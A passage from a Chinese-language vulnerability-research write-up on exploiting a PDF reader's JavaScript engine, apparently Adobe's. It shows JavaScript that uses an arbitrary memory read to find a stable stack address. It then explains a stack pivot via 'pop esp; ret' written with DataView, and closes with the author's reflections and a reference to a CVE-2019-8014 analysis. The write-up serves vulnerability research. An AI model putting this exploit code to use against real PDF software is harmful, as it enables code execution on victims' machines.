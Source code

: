 这里得到的s是一个栈地址，但是其地址与函数ret时的esp之间的偏移是会发生变化的，但是变化范围不大，因此可以以该地址为起点进行搜索，直到搜索到getUint32的返回地址时便可以确定具体的栈地址。

```
//搜索栈地址，确定一个稳定的栈地址
 var stack_addr = 0;
 for (var k = s;k &amp;gt; s - 0x1000;k -= 4) `{`
        x = dv.getUint32(k - heap_addr,true);
         if (x == escript_base + 0x12e384) `{`
            stack_addr = k;
             //app.alert("found stack_addr=" + stack_addr.toString(16));
            break;
        `}`
`}`
```

接下来就利用任意地址读写，劫持ret时的esp指向的地址处为pop esp ; ret，做栈迁移，可以dv.setFloat64来完成一次性写8字节的目的，这样写完便可以完成栈迁移。



## 0x02 感想

第一次挖掘真实漏洞，收获挺大



## 0x03 参考

(深入分析Adobe忽略了6年的PDF漏洞) [https://xlab.tencent.com/cn/2019/09/12/deep-analysis-of-cve-2019-8014/](https://xlab.tencent.com/cn/2019/09/12/deep-analysis-of-cve-2019-8014/)
